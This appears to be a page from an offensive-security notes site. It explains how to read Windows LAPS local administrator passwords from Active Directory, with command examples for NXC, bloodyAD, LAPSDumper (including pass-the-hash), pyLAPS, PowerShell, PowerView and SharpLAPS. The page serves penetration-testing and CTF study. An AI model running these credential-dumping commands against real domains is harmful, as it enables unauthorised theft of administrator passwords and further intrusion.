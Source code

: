 # ReadLAPSPassword

## Information

LAPS is a [Windows feature](https://learn.microsoft.com/en-us/windows-server/identity/laps/laps-overview) that automatically manages and backs up the password of a local administrator account on Windows Server AD-joined devices

<figure><img src="../../../.gitbook/assets/timelapse_laps_priv (1).png" alt=""><figcaption></figcaption></figure>

## Exploitation

### Linux

{% tabs %}
{% tab title="NXC" %}
```bash
# read the password of all computers
nxc ldap <ip> -u <user> -p <pass> -M laps
# read the password of a specific computer
nxc ldap <ip> -u <user> -p <pass> -M laps -o COMPUTER='DC01$'
```
{% endtab %}

{% tab title="bloodyAD" %}
{% code overflow="wrap" %}
```bash
bloodyAD -u <user> -d <domain> -p <pass> --host <ip> get object 'COMPUTER$' --attr ms-Mcs-AdmPwd
```
{% endcode %}
{% endtab %}

{% tab title="LAPSDumper" %}
```bash
# basic usage
python laps.py -u <user> -p <pass> -d <domain>
# PtH on specific LDAP server
python laps.py -u <user> -p <hash> -d <domain> -l <fqdn>
```
{% endtab %}

{% tab title="pyLAPS" %}
{% code overflow="wrap" %}
```bash
# read the password of all computers
pyLAPS.py --action get -u <user> -d <domain> -p <pass> --dc-ip <ip>
# read the password of a specific computer
pyLAPS.py --action get --computer 'DC01$' -u <user> -d <domain> -p <pass> --dc-ip <ip>
```
{% endcode %}
{% endtab %}
{% endtabs %}

For an example of reading the LAPS password with NXC check [Timelapse](../../../boxes/easy/timelapse.md#laps).

### Windows

{% tabs %}
{% tab title="AD PS" %}
{% code overflow="wrap" %}
```powershell
Get-ADComputer -filter {ms-mcs-admpwdexpirationtime -like '*'} -prop 'ms-mcs-admpwd','ms-mcs-admpwdexpirationtime'
```
{% endcode %}
{% endtab %}

{% tab title="PowerView" %}
{% code overflow="wrap" %}
```powershell
Get-DomainComputer "DC01" -Properties 'cn','ms-mcs-admpwd','ms-mcs-admpwdexpirationtime'
```
{% endcode %}
{% endtab %}

{% tab title="SharpLAPS" %}
```powershell
SharpLAPS.exe /user:"DOMAIN\User" /pass:"Password" /host:"192.168.1.1"
```
{% endtab %}
{% endtabs %}

## Resources

{% tabs %}
{% tab title="LAPSDumper" %}
{% embed url="https://github.com/n00py/LAPSDumper" %}
{% endtab %}

{% tab title="pyLAPS" %}
{% embed url="https://github.com/p0dalirius/pyLAPS" %}
{% endtab %}

{% tab title="SharpLAPS" %}
{% embed url="https://github.com/swisskyrepo/SharpLAPS" %}
{% endtab %}
{% endtabs %}
